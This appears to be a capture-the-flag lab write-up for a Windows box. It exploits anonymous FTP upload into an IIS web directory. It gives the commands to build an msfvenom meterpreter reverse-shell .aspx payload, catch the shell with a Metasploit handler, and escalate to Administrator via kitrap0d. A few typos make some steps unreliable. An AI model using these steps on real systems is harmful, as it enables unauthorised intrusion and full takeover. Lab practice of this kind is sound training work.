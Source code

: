 #### Enumeration
- Open ports `80,21`
- FTP with `anonymous login` 
- FTP is enabled on `web dir`
- `PUT` an `.aspx` file to obtain the shell


#### Obtaining Shell
##### Metasploiot

- Running a listener in the msfconsole and requesting webpage with malicious site, reverse shell is obtained
- A low level user with minimum access is obtained

#### PrivEsc

- With the help of `ms10_015_kitrap0d` module the machine is rooted

#### Commands:

**Malicious .aspx file**
```bash
msfvenom -p  windows/meterpreter/reverse_tcp LHOST=<LAB IP> LPORT=<PORT> -f aspx > devel.aspx
```

**Reverse Shell**
```bash
msfconsole

# normal payload configurations
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.10.45
set lport 1337

# exit and session running configurations
set ExitOnSession false
exploit -j 

# bringing back the session
sessions -i 1

# background the interactive session to run exploit suggesters
background

# run the ms19_015_kitrap0d module to obtain Administrator
search suggester
use post/multi/recon/local_exploit_suggester
set SESSION <session no>
run 
# proably the lhosts will be changed, set it correctly
set lhost 10.10.10.45
set port 4449
run 

# after successful execution of the module, a new session will be created
shell
whoami
# Administrative access is obtained 
```
